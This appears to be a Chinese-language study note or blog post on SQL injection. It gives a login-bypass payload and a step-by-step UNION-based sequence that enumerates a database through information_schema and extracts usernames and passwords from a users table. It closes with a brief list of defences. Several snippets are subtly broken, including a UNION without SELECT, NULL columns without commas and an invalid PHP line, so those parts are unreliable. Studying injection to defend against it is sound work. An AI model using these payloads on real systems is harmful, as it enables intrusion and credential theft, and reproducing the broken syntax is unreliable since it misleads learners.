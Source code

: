 ```yaml
---
title: Sql Injection
date: 2023-03-12 19:20:48
tags: Network
katex: true
---
```


### SQL 基本語法
```
SELECT 欄位 FROM 表格
SELECT 欄位 FROM 表格 UNION 1,2,3,...
```

#### Authrization Bypass
### PHP
```php
$user = $_GET[key=value]
$sql = "SELECT * FROM db WHERE USER = ' ' or 1=1 --"(True) 
```
在登陸介面 name 輸入 `' or 1=1 --` , password隨便輸
|符號|功能|
|--|--|
| '|stop|


```
?catogority=.... 這是向DB 輸 SQL指令
?catogority=' or 1=1 -- 使得DB輸出所為true東西
```

### Union SQL injection
確認有幾個欄位
```PHP
UNION SELECT NULL --
UNION SELECT NULL NULL --
UNION SELECT NULL NULL NULL --
```
確定是不是字串
```PHP
UNION SELECT 'a' NULL NULL
UNION SELECT NULL 'a' NULL 
UNION SELECT NULL NULL 'a'
```
查看有什麼資料
```
information_schema.schemata
information_schema.tables
information_schema.columns
```
EX: 取得某網站管理員帳號
```
'UNION SELECT 'a', 'a' --
'UNION SELECT schema_name, schema_name FROM information_schema.schemata --
'UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_schema = 'public' --
'UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' --
'UNION SELECT username, password FROM public.users --
```

### 預防
1. 黑名單
  拒絕含有SQL關鍵字輸入 (駭客總有方法進入, ex: 正則化...)
2. 白名單
   只允許特定字加入SQL
3. 參數化查詢
   最有效防止
   先編譯完再將查詢參數填入(參數不會被當作執行語法)

